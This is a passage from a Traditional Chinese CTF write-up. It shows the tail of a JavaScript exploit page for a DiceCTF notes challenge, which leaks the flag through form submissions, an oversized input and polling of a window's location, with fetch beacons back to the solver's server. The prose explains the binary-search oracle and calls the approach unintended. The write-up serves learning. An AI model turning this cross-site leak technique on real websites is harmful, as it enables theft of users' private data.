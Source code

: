``` html
      f_create.submit()
      await sleep(500)
      fetch('/step_1_end')

      // step2. delete first note
      fetch('/step_2_start')
      f_delete.submit()
      await sleep(500)
      fetch('/step_2_end')

      // step3. leak
      fetch('/step_3_start')
      inp.value = 'a'.repeat(10000)
      f.submit()
      fetch('/step_3_end')

      let count = 0
      setInterval(() => {
        fetch('/timeout'+count)
        count++
        try {
          let r = win.location.href
          fetch('/?r=' + r)
        } catch(err) {
          fetch('/err')
        }

        // err: payload is before flag
        // dice{azzz
        // dice{flag}

        // about:blank, payload is after flag
        // dice{flag}
        // dice{fzzzz}
      }, 200)
    }

    main()
      
  </script>

</body>

</html>
```

每 submit 一次，就能知道 flag 的順序在某個字元前面還後面，運用 binary search 的話，大約 submit 6 次可以知道結果，一次要等 30 秒，總共需要 3 分鐘，因為懶得自動化所以我就手動慢慢 leak 了。

大概花了 40 分鐘左右拿到 flag，不過這其實是 unintended 就是了。

### 預期解
